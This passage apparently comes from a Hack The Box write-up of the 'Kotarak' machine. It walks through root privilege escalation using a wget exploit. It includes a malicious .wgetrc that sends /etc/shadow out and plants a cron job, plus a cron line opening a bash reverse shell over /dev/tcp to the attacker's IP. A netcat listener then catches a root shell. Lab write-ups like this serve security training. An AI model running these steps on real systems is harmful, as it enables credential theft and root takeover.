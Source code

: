 First, prepare a malicious _.wgetrc_ file on your attack machine.

```text
cat <<_EOF_>.wgetrc
post_file = /etc/shadow
output_document = /etc/cron.d/wget-root-shell
_EOF_
```

Second, start up an FTP server in the directory that the ._wgetrc_ file resides in.

```text
python -m pyftpdlib -p21 -w
```

Third, copy the exploit and save it in the file _wget-exploit.py_. Change the configuration to send a reverse shell back to your attack machine.

```text
HTTP_LISTEN_IP = '0.0.0.0'
HTTP_LISTEN_PORT = 80
FTP_HOST = '10.10.14.12'
FTP_PORT = 21ROOT_CRON = "* * * * * root bash -c 'bash -i >& /dev/tcp/10.10.14.12/6666 0>&1' \n"
```

Then transfer the exploit to the attack machine and run it.

```text
authbind python wget-exploit.py
```

Setup a listener on the attack machine and wait a couple of minutes for the exploit to completely run.

```text
root@kali:~/Desktop/htb/kotarak/wget-exploit# nc -nlvp 6666
listening on [any] 6666 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.55] 54282
```

We get a shell! If you run the ifconfig command, you’ll see that we’ve pivoted to the 10.0.3.133 box and now are running with root privileges.

```text
root@kotarak-int:~# /sbin/ifconfig                                                                           
/sbin/ifconfig                                                                                               
eth0      Link encap:Ethernet  HWaddr 00:16:3e:c9:bd:b1                                                      
          inet addr:10.0.3.133  Bcast:10.0.3.255  Mask:255.255.255.0                                         
          inet6 addr: fe80::216:3eff:fec9:bdb1/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:1566 errors:0 dropped:0 overruns:0 frame:0
          TX packets:1558 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000 
          RX bytes:91989 (91.9 KB)  TX bytes:101232 (101.2 KB)lo        Link encap:Local Loopback  
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:0 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1 
          RX bytes:0 (0.0 B)  TX bytes:0 (0.0 B)root@kotarak-int:~# id
id
uid=0(root) gid=0(root) groups=0(root)
```
